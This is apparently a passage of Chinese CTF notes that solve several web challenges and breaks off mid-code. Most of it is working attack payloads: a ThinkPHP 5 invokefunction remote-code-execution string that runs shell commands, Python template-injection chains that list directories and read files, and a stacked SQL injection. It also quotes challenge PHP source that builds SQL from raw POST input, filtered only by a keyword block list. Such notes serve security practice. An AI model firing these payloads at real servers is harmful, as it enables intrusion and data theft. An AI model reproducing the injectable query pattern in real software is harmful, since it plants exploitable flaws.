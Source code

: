 Payload: ?password=42aaAaa2;aaaa

## php_rce（攻防世界）

phpthink5漏洞

```
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20%27system("ls");%27

?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20%27system("find / -name 'flag'");%27
```

## Web_python_template_injection（攻防世界）

python模板注入

尝试url/{{7+7}}执行

```
url/{{''.__class__.__mro__[2].__subclasses__()}}

url/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}

url/{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}

```

## supersql（攻防世界）

1.
```
?inject=1';show columns from `words`;--+
```

## 4月24日正则盲注

[题目地址](http://47.102.127.194:8801/)

源码

```
<?php 
include "config.php";
error_reporting(0);
highlight_file(__FILE__); 

$check_list = "/into|load_file|0x|outfile|by|substr|base|echo|hex|mid|like|or|char|union|or|select|greatest|%00|_|\'|admin|limit|=_| |in|<|>|-|user|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($check_list, $_POST['username'])){
    die('<h1>Hacking first,then login!Username is very special.</h1>'); 
}
if(preg_match($check_list, $_POST['passwd'])){
    die('<h1>Hacking first,then login!No easy password.</h1>');
}
$query="select user from user where user='$_POST[username]' and passwd='$_POST[passwd]'"; 
$result = mysql_query($query);
$result = mysql_fetch_array($result);
$passwd = mysql_fetch_array(mysql_query("select passwd from user where user='admin'"));
if($result['user']){
    echo "<h1>Welcome to CTF Training!Please login as role of admin!</h1>"; 
}
if(($passwd['passwd'])&&($passwd['passwd'] === $_POST['passwd'])){
    $url = $_SERVER["HTTP_REFERER"];
```